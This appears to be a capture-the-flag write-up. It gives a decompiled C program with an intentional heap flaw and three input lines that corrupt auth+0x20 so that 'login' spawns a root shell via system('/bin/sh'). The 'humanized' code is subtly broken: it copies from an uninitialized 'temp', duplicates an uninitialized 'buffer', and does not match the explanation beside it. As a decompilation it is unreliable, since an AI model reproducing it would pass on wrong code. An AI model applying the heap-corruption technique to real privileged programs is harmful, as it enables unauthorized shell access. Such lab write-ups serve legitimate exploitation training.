 Here is a humanized version of the decompiled code :
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char *auth = NULL;
char *service = NULL;

int main(void) {
    char input[128];
    char temp[2];
    char buffer[125];

    while (1) {
        printf("%p, %p \n", auth, service);

        if (!fgets(input, sizeof(input), stdin)) {
            return 0;
        }

        if (strncmp(input, "auth ", 5) == 0) {
            auth = (char *)malloc(4);
            if (auth) {
                memset(auth, 0, 4);
                size_t len = strlen(temp);
                if (len < 30) {
                    strcpy(auth, temp);
                }
            }
        }

        if (strncmp(input, "reset", 5) == 0) {
            free(auth);
        }

        if (strncmp(input, "service", 6) == 0) {
            service = strdup(buffer);
        }

        if (strncmp(input, "login", 5) == 0) {
            if (*(int *)(auth + 0x20) == 0) {
                fwrite("Password:\n", 1, 10, stdout);
            } else {
                system("/bin/sh");
            }
        }
    }

    return 0;
}
```

We can see straight away that if the input is login, it checks if auth + 0x20 == 0 and spawns a shell accordingly.

We also see that there inputing "auth " will let you continue in the code.

If you input "servic", the input is strdup'ed. We can exploit that to overflow to auth and write the auth + 0x20 byte to something different than 0 and then login to spawn the shell.

First step :
`"auth "`
Second step :
`"serviceeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee"`
Third step :
`login`

Then the shell spawns.
